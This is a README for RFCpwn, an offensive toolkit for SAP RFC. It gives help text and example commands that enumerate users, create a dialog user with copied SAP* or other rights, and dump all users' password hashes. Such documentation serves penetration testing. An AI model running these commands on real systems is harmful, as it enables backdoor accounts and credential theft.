 ### RFCpwn
An Impacket style enumeration and exploitation toolkit using SAP RFC calls

RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation
python3 ./RFCpwn.py -h 
```shell
usage: RFCpwnv2.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping
```shell
python3 ./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1 -copy basis_1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass 
```
